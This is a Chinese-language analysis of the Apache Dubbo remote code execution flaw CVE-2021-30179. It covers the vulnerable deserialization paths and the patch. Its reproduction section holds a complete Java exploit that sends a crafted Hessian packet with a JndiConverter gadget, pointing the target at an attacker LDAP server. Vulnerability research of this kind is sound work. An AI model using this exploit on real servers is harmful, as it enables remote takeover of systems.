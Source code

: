 - [CVE-2021-30179 Apache Dubbo 远程代码执行漏洞](#cve-2021-30179-apache-dubbo-远程代码执行漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [Generic Reference](#generic-reference)
    - [GenericFilter](#genericfilter)
    - [raw.return](#rawreturn)
      - [PojoUtils](#pojoutils)
    - [bean](#bean)
      - [JavaBeanSerializeUtil](#javabeanserializeutil)
    - [nativejava](#nativejava)
  - [漏洞复现](#漏洞复现)
    - [xbean.propertyeditor.JndiConverter](#xbeanpropertyeditorjndiconverter)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2021-30179 Apache Dubbo 远程代码执行漏洞
## 影响版本
```
Apache Dubbo 2.7.0 to 2.7.9
Apache Dubbo 2.6.0 to 2.6.9
Apache Dubbo all 2.5.x versions (官方已不再提供支持)
```
## 环境搭建
参考:  
https://cn.dubbo.apache.org/zh-cn/overview/mannual/java-sdk/quick-start/spring-boot/#5-%E5%AE%9A%E4%B9%89%E6%9C%8D%E5%8A%A1%E7%AB%AF%E7%9A%84%E5%AE%9E%E7%8E%B0
## 漏洞原理
### Generic Reference
Apache Dubbo支持泛化引用,泛化调用是指在调用方没有服务方提供的 API（SDK）的情况下，对服务方进行调用，并且可以正常拿到调用结果.   
官方文档: https://cn.dubbo.apache.org/zh-cn/overview/mannual/java-sdk/advanced-features-and-usage/service/generic-reference/  
客户端调用的代码如下:
```java
    private static GenericService genericService;

    public static void main(String[] args) throws Exception {
        ClassPathXmlApplicationContext context = new ClassPathXmlApplicationContext("spring/generic-impl-consumer.xml");
        context.start();
        //服务对应bean的名字由xml标签的id决定
        genericService = context.getBean("helloService");
        //获得结果
        Object result = genericService.$invoke("sayHello", new String[]{"java.lang.String"}, new Object[]{"world"});
    }
```
### GenericFilter
当客户端通过泛化来调用时,ApacheDubbo进行处理的对应类为`org.apache.dubbo.rpc.filter.GenericFilter`.   
首先对传入的参数进行判断是否满足泛化调用的条件,然后根据反射来获取调用的Method.
![](2023-03-15-17-17-31.png)  
通过请求中的generic参数来选择不同的方法反序列化参数.
![](2023-03-15-17-19-32.png)
### raw.return
当generic参数为true或者raw.return时将会调用`PojoUtils.realize`方法.  
![](2023-03-15-17-24-08.png)
![](2023-03-15-17-24-33.png)
![](2023-03-15-17-25-04.png)
#### PojoUtils
在`PojoUtils#realize`方法中主要在`realize0`针对传入的参数的class进行判断,针对Map等这类基础类型进行单独处理,而如果都不是的话则会进入到最后的else分支中.  
![](2023-03-15-17-29-53.png)  
可以看到在其中通过反射来创建对象,并获取对应的`setter`方法进行反射调用来还原属性.在这个就可以通过构造能利用setter方法触发RCE的类进行反序列化了.
### bean
当generic为`bean`时将会调用`JavaBeanSerializeUtil.deserialize`方法,同时该Object必须为`JavaBeanDescriptor`的子类.  
![](2023-03-15-17-41-47.png)  
而`javaBeanDescriptor`就是一个POJO对象的包装器.
#### JavaBeanSerializeUtil
进入`JavaBeanSerializeUtil.deserialize`后,通过`instantiateForDeserialize`利用ClassforName来创建该对象.  
![](2023-03-15-18-18-40.png)  
![](2023-03-15-18-19-03.png)   
![](2023-03-15-18-19-30.png)  
最后会来到`deserializeInternal`方法中.
同样对Map,Array等类型有一些单独处理,而如果Object类型为Bean类型.首先会获取该`JavaBeanDescriptor`对象中的属性名称和值. 
![](2023-03-15-17-46-11.png)  
然后通过`getSetterMethod`获取到该Obejct的setter方法,同样利用反射来设置还原对应的属性.同样在这里就可以通过构造能利用setter方法触发RCE的类进行反序列化了.
### nativejava
如果generic为`nativejava`,将遍历所有参数,如果参数类型为byte[]数组,那么便创建一个`UnsafeByteArrayInputStream`,并且传入的值就是该参数.
![](2023-03-15-17-52-14.png)  
然后通过调用`UnsafeByteArrayInputStream`的readObject()方法来反序列化,也就是jdk原原生的反序列化.
## 漏洞复现
主要在于构造Dubbo协议的数据包,协议格式可参数官方文档:  
https://cn.dubbo.apache.org/zh-cn/docs/concepts/rpc-protocol/#protocol-spec  
### xbean.propertyeditor.JndiConverter
这里通过Bean为例进行反序列化,利用恶意类的是`org.apache.xbean.propertyeditor.JndiConverter`类,其继承了`AbstractConverter`.  
在`AbstractConverter`中其`setAsText`方法最终会调用到`toObjectImpl`方法.
![](2023-03-15-18-01-11.png)  
![](2023-03-15-18-01-18.png)  
而`org.apache.xbean.propertyeditor.JndiConverter`类重写了`toObjectImpl`含有一个JNDI注入的sink.  
![](2023-03-15-17-59-12.png)
```java
package exp;

import org.apache.dubbo.common.beanutil.JavaBeanDescriptor;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;


import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

public class cve_2021_30179 {
    public static void main(String[] args) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);
        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        // set body
        out.writeUTF("2.7.8");
        //todo 此处填写Dubbo提供的服务名
        out.writeUTF("com.demo.api.userInterface");
        out.writeUTF("");
        out.writeUTF("$invoke");
        out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
        //todo 此处填写Dubbo提供的服务的方法
        out.writeUTF("say");
        out.writeObject(new String[] {"java.lang.String"});

        JavaBeanDescriptor javaBeanDescriptor = new JavaBeanDescriptor("org.apache.xbean.propertyeditor.JndiConverter",7);
        javaBeanDescriptor.setProperty("asText","ldap://192.168.91.1:1389/4gkfxq");
        out.writeObject(new Object[]{javaBeanDescriptor});
        HashMap map = new HashMap();
        map.put("generic", "bean");
        out.writeObject(map);
        out.flushBuffer();
        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());
        byte[] bytes = byteArrayOutputStream.toByteArray();
        //todo 此处填写Dubbo服务地址及端口
        Socket socket = new Socket("192.168.1.115", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```
![](2023-03-15-18-04-26.png)
## 补丁
针对`raw.return`和`bean`方式的反序列化,添加了一个`SerializeClassChecker`黑白名单机制进行防御.  
![](2023-03-15-18-16-52.png)
![](2023-03-15-18-14-49.png)  
nativejava 则从配置文件中判断是否支持Java反序列化，默认为false.
## 参考
https://mp.weixin.qq.com/s/vHJpE2fZ8Lne-xFggoQiAg  
https://xz.aliyun.com/t/10916#toc-28